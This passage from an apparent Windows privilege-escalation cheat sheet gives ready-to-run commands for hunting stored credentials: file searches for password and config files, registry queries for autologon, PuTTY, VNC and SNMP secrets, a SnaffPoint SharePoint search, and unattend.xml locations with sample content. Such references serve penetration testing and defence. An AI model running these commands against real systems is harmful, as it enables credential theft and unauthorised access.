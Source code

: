 ```powershell
.\SnaffPoint.exe -u "https://your.sharepoint.com" -t $token -l -q "filename:.config"
```

* Search passwords in SMB Shares: [SnaffCon/Snaffler](https://github.com/SnaffCon/Snaffler)

### Search for a file with a certain filename

```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

### Search the registry for key names and passwords

```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Passwords in unattend.xml

Location of the unattend.xml files.

```powershell
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Display the content of these files with `dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul`.

Example content

```powershell
<component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo==</Password>
     <Enabled>true</Enabled>
     <Username>Administrateur</Username>
    </AutoLogon>

    <UserAccounts>
     <LocalAccounts>
      <LocalAccount wcm:action="add">
       <Password>*SENSITIVE*DATA*DELETED*</Password>
       <Group>administrators;users</Group>
       <Name>Administrateur</Name>
      </LocalAccount>
     </LocalAccounts>
    </UserAccounts>
```
